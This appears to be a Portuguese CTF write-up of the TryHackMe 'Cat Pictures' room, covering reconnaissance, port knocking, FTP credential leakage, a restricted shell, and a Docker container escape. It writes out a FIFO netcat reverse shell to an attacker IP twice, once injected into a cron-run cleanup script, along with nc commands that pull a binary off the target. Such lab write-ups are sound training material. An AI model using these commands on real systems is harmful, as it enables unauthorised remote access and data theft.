










## Reconhecimento

Scan inicial (top ports, half-open):

```
sudo nmap --top-ports 500 -sN catpictures.thm
PORT     STATE         SERVICE
21/tcp   filtered      ftp
22/tcp   open|filtered ssh
8080/tcp filtered      http-proxy
```

Scan completo (`-p-`):



```
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express
8080/tcp open     http-proxy
```

Portas 21 (ftp) e 2375 (docker) filtradas — candidatas a serem liberadas via port knocking. Porta 8080 com aplicação web ativa. Porta 4420 é um serviço customizado (não é NVMe de verdade).

## Enumeração

A aplicação web na porta 8080 é um fórum phpBB ("Cat Pictures"). Um post no fórum vaza a sequência de port knocking:



> Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Script de knock usado (`knock.py`, ver diretório):

```
python3 knock.py -h catpictures.thm -kp 1111,2222,3333,4444 -tp 21,22 -t 0.5
```

Após o knock, a porta 21/ftp abre. Login anônimo no FTP revela um arquivo de nota deixado por um usuário, contendo credenciais para o serviço interno na porta 4420:



> In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
> Connect to port 4420, the password is `[redacted]` - catlover

## Exploração

Conexão ao serviço customizado na porta 4420 via `nc`:



```
nc catpictures.thm 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
```

Após autenticar com a senha vazada no FTP, obtém-se um shell restrito (sem `cd`, sem `Ctrl-C`). Para contornar as limitações, foi injetado um shell reverso completo via FIFO diretamente no shell restrito:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_ATACANTE> 5555 >/tmp/f
```

Com listener local (`nc -lvnp 5555`), a conexão retorna um `sh -i` completo, contornando as restrições do shell customizado.

No diretório home do usuário `catlover`, foi encontrado um binário `runme` que solicita senha para execução:



O binário foi exfiltrado para a máquina local via `nc` puro (sem FTP/SCP disponível):

```sh
# atacante
nc -lvnp <PORTA> > runme
# alvo
nc <IP_ATACANTE> <PORTA> < runme
```

Análise estática com `strings` revela a senha em texto puro embutida no binário, logo antes da string do prompt:



Senha encontrada: `rebecca`

Executando o `runme` no alvo com essa senha, o binário gera e transfere uma chave SSH (`id_rsa`) para o usuário `catlover`:

```
Welcome, catlover! SSH key transfer queued!
```

## Pós-exploração

Chave privada transferida para a máquina local e usada para autenticar via SSH:

```sh
ssh -i id_rsa catlover@catpictures.thm
```

O acesso via SSH cai diretamente como **root** — porém em um ambiente contido, evidenciado pela presença de `/.dockerenv`, indicando execução dentro de um container Docker e não no host real.

Enumerando o sistema de arquivos, o `.bash_history` (legível) revela comandos anteriores de outro operador, incluindo a edição de um script `/opt/clean/clean.sh`:



Conteúdo original do script (aparenta ser executado periodicamente, possivelmente fora do container, para limpeza de `/tmp`):



```sh
#!/bin/bash
rm -rf /tmp/*
```

Como o script provavelmente é executado pelo host (fora do container) — por cron ou processo de manutenção —, foi injetado um shell reverso adicional ao final do arquivo, como técnica de **container escape**:



```sh
#!/bin/bash
rm -rf /tmp/*
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_ATACANTE> 5555 >/tmp/f
```

Antes do escape, a flag do container foi coletada em `/root/flag.txt`:



Após alguns minutos de espera pela execução agendada do script, o listener (`nc -lvnp 5555`) recebe uma nova conexão — desta vez **fora do container** (ambiente diferente, com diretórios `firewall` e `snap`, `whoami` = root no host real):


```
whoami
root
cat root.txt
Congrats!!!
Here is your flag:
```

## Flags

| Flag | Valor |
|------|-------|
| Container (`/root/flag.txt`) | ver [`container_flag.png`](container_flag.png) |
| Root (host, `root.txt`) | ver [`root_flag.png`](root_flag.png) |

## Referências

- [TryHackMe — Cat Pictures](https://tryhackme.com/room/catpictures)
